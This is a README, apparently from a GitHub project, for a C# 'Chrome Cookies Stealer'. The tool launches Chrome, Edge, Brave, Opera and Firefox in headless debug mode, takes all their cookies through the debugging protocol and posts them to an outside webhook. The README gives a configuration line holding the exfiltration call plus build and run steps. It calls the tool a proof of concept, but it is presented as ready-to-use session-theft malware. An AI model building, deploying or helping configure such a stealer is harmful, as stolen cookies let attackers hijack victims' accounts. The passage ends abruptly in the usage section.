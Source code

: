 # Documentation: Chrome Cookies Stealer

## Table of Contents

- [Overview](#overview)
- [Features](#features)
- [How It Works](#how-it-works)
- [Configuration](#configuration)
- [Prerequisites](#prerequisites)
- [Usage](#usage)
- [Code Walkthrough](#code-walkthrough)
- [Important Notes](#important-notes)
- [Disclaimer](#disclaimer)

---

## Overview

The **Chrome Cookies Stealer** is a proof-of-concept tool designed to extract cookies from various web browsers (Chrome, Edge, Brave, Opera, and Firefox) by leveraging their debugging protocols. It collects cookies and sends them to a specified webhook for further analysis.

---

## Features

- Detects installed browsers and retrieves their cookies.
- Uses WebSocket debugging protocols to fetch cookies.
- Sends collected cookies to a predefined webhook.
- Supports multiple browsers:
  - Google Chrome
  - Microsoft Edge
  - Brave Browser
  - Opera
  - Mozilla Firefox

---

## How It Works

1. **Browser Detection**:
   - Checks for the installation of supported browsers by verifying the existence of their binaries.

2. **Browser Launch**:
   - Starts the browser in headless mode with debugging enabled on a specific port.

3. **Cookie Retrieval**:
   - Connects to the browser's debugging WebSocket endpoint and retrieves all cookies using `Network.getAllCookies`.

4. **Cookie Transmission**:
   - Formats the retrieved cookies and sends them to a predefined webhook URL.

5. **Browser Cleanup**:
   - Closes the browser after collecting cookies.

---

## Configuration

The tool includes a configuration dictionary (`CONFIGS`) specifying paths to the browser binaries and user data directories. Modify this dictionary if needed to suit your environment.

1. Set webhook in the webhook line 
 ```c#
   var response = await client.PostAsync("Your Webhook", form);
 ```
 
 2. compile the project
---

## Prerequisites

1. .NET Core or .NET Framework installed on the system.
2. The following NuGet packages:
   - [Newtonsoft.Json](https://www.nuget.org/packages/Newtonsoft.Json)
   - [WebSocketSharp](https://github.com/sta/websocket-sharp)
3. Supported browsers installed on the system.

---

## Usage

1. Clone or download the project.
2. Build the project using your preferred IDE or command-line tool.
3. Run the application:
   ```bash
   dotnet run
